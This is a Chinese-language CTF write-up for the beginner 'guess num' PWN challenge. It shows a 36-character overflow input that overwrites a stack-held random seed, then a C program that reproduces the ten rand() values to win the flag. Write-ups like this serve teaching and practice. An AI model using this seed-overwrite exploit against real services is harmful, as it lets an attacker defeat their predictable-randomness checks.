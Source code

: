 # Write Up

## 题目：[攻防世界PWN新手入门题——guess num](https://adworld.xctf.org.cn/task/writeup?type=pwn&id=5057&number=2&grade=0&page=1)

## 解题过程

使用nc连接题目中给的地址，发现需要输入自己的名字和数字

![](imgs/1-nc.png)

下载题目给的附件，使用ida打开，找到main函数之后，反汇编查看源码如下

![](imgs/1-source-code.png)

源码中使用种子生产了随机数，用户需要输入10次正确的随机数就能过关。在C语言中，主要随机数种子一致，生成的随机数就是一样的。

因此我们可以在输入用户姓名时溢出覆盖随机数种子。然后本地使用该种子生成10个随机数输入。

![](imgs/1-var.png)

用户姓名储存在v9中，使用的种子是seed数组的首地址。且两个变量都是main函数的局部变量，因此都在rbp的低地址，变量地址偏移20h（30h-10h），因此输入36个a，32个a为变量之间的偏移，4个用于覆盖seed[0]的unsigned int变量（4个字节）


```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
编写如下C语言代码
```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
        srand(0x61616161);
        int num = 0;
        for(int i = 0;i < 10;i++)
        {
                num = rand() % 6 + 1;
                printf("%d\n",num);
        }
        return 0;
}
```

生成10个随机数

![](imgs/1-gen_num.png)

获得flag

![](imgs/1-get-flag.png)

## 参考

- [攻防世界writeup](https://adworld.xctf.org.cn/task/writeup?type=pwn&id=5057&number=2&grade=0&page=1)

